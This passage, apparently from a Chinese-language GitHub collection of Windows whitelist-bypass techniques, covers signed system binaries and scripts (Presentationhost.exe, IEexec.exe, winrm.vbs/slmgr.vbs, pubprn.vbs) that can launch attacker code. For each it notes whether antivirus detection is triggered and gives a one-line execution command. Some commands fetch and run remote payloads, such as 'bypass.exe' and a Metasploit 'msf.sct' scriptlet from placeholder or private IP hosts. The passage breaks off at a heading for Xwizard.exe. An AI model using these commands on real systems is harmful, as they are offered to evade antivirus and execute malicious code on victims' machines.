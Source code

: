 - 执行方式：
```
Presentationhost.exe C:\temp\Evil.xbap
```
## IEexec.exe

- 杀软行为检测：未触发杀软行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/wVbFrU9cE3hCYAENjmnSUQ](https://mp.weixin.qq.com/s/wVbFrU9cE3hCYAENjmnSUQ)

IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。可以将IEExec.exe应用程序用作主机，以运行使用URL启动的其他托管应用程序。

IEexe.exe在64位系统路径为：`C:\Windows\Microsoft.NET\Framework64\v2.0.50727`


- 执行方式：
```
ieexec.exe http://x.x.x.x:8080/bypass.exe
```
## winrm.vbs/slmgr.vbs
- 杀软行为检测：触发杀软行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/B3oiMrEB98jtm4DvD2t2tQ](https://mp.weixin.qq.com/s/B3oiMrEB98jtm4DvD2t2tQ)

winrm.vbs(System32中的Windows签名脚本)能够使用和执行攻击者控制的XSL，而XSL不受“enlightened script host”的限制，导致任意的、无签名的代码执行。

winrm.vbs文件位置：
```
C:\windows\system32\winrm.vbs
C:\windows\SysWOW64\winrm.vbs
```

- 执行方式：

```
cscript /b C:\Windows\System32\slmgr.vbs
winrm quickconfig
```
## pubprn.vbs
- 杀软行为检测：触发杀软行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/btiaVMBPxfxG4oXPa7__kw](https://mp.weixin.qq.com/s/btiaVMBPxfxG4oXPa7__kw)

在Windows 7+上，存在一个Microsoft签名的WSH脚本，名为` PubPrn.vbs`，该脚本位于`“ C：\ Windows \ System32 \ Printing_Admin_Scripts \ en-US`中。在查看此特定脚本时，很明显它正在接受用户提供的输入（通过命令行参数）并将参数传递给`“GetObject()`。


文件位置：`C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs`

- 执行方式：

```
C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs 127.0.0.1 script:http://10.211.55.5/msf.sct
```
## Xwizard.exe
